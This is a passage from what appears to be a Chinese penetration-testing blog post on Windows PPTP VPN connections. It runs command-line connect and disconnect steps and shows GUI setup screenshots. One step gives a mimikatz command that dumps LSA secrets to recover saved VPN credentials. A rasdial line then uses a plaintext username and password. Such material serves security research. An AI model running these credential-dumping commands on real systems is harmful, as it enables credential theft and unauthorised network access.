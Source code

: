 ![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/2-3.png)

### 3、获得PPTP口令


使用工具mimiaktz，命令如下：

```
mimikatz.exe privilege::debug token::elevate lsadump::secrets exit
```

获得连接用户名和口令，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/2-4.png)

### 4、命令行下连接VPN

```
rasdial "VPN Connection" zhaodg oZ7iFk25
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/2-5.png)

### 5、命令行关闭VPN连接

```
rasphone -h "VPN Connection"
```

## 0x03 Windows系统PPTP连接的方法和细节
---

1.

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/3-1.png)

2.

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/3-2.png)

3.

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/3-3.png)

4.选择创建新连接

5.填入服务器IP，选中稍后连接

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/3-4.png)

6.填入用户名口令

7.点击连接后，选择跳过
